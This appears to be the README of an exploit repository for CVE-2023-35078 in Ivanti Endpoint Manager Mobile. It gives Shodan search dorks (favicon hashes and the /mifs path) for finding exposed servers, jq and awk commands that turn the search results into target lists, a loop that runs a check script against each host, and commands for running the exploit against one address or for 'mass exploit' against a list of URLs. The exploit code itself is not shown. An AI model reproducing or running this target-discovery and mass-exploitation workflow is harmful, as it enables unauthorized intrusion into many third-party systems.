 # CVE-2023-35078
Ivanti Endpoint Manager Mobile exploit <br/>

- Shodan dorks: <br/>
```
http.favicon.hash:362091310
```
```
http.favicon.hash:545827989
```
```
path=/mifs
```
- Transform shodan json to data <br/>
```
jq -cr 'select(.http.favicon.hash == 362091310) | [ if .ssl? then "https://" else "http://" end , (.ip_str) + ":" + (.port|tostring)] | add' shodan.json > data_file
```
```
jq -cr 'select(.http.favicon.hash == 545827989) | [ if .ssl? then "https://" else "http://" end , (.ip_str) + ":" + (.port|tostring)] | add' shodan.json > data_file
```
```
python3 shodan-parser.py -o temp_data_file shodan.json
```
```
awk '{print "https://"$0}' temp_data_file > data_file
```
- How run check. <br/>

   The format of the data_file should be as follows: **_http://ip_addr:port_** or **_https://ip_addr:port_** <br/> 
```
chmod +x check.sh; while read line; do ./check.sh $line; done < data_file
```
- Setup requirements <br/>
```
pip install -r requirements.txt
```
- Run exploit single address . <br/>
```
python exploit.py -u http://
```
- Run mass exploit . <br/>
```
python exploit.py -f urls.txt
```

